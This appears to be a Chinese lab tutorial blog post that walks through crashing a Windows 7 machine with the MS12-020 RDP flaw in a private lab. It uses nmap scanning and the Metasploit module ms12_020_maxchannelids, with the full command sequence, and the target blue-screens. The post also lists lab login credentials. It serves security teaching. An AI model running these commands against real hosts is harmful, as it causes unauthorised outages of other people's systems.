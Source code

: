 ```yaml
---
title: ms12-020渗透攻击实战
date: 2018-12-26 11:33:49
tags:
categories: kali
---
```


### 实验环境
1. 攻击机
  1. 操作系统：kali
  2. IP地址：172.0.0.10
2. 靶机
  1. 操作系统：win7
  2. IP地址：172.0.0.12
  3. 端口开放：3389
<!--more-->
### 准备工作
1. 确保两台主机在局域网内相互ping通
2. 靶机检查自己开放端口，确保3389端口开放。

### 操作步骤

#### 准备工作
##### 一、 两台主机在局域网内网络互通
1. 登录攻击机
账号：`debian`
密码：`kalidebian`
2. 右键选择->`Open Terminal Here`打开命令行终端
3. 输入`ip address`确认自己的IP地址
 ![Alt text](./ipaddress.png)
可以看到本机的IP地址为172.0.0.10
4. 使用nmap命令扫描局域网内其他主机
`nmap -sP 172.0.0.0-255`
 ![Alt text](./nmap scanIp.png)
其中172.0.0.2是dhcp服务，可以看到。除了这两个IP。还扫描到一个IP地址为172.0.0.12的主机，这就是靶机的IP地址。
5. 如果没有发现其他主机，请确认靶机防火墙已经关闭。
##### 二、靶机端口3389端口开放
1. 点击搜索符号，输入Zenmap并打开。
2.  在target输入靶机的IP地址信息并点击scan。
 ![Alt text](./nmap.png)

可以看到靶机的开放端口信息，其中包含3389端口。如果3389端口没有开放，则需要登录靶机并开启3389端口。

#### ms12-020漏洞攻击
1. 登录攻击机，打开命令行终端
2. 输入命令`msfconsole`进入MSF终端
 ![Alt text](./msfconsole.png)

3. 在MSF终端对目标漏洞进行查找相对应的漏洞利用模块
`search ms12-020`
`use auxiliary/dos/windows/rdp/ms12_020_maxchannelids`
 ![Alt text](./use模块.png)

4. 配置目标主机和本机地址
`set RHOST 172.0.0.12`
`set LHOST 172.0.0.10`
 ![Alt text](./setIP.png)

5. 对目标漏洞执行攻击，输入命令`exploit`
 ![Alt text](./exploit.png)

6. 迅速切换到靶机界面，可以看到靶机界面显示蓝屏，然后自动重启。
 ![Alt text](./shutdown.png)
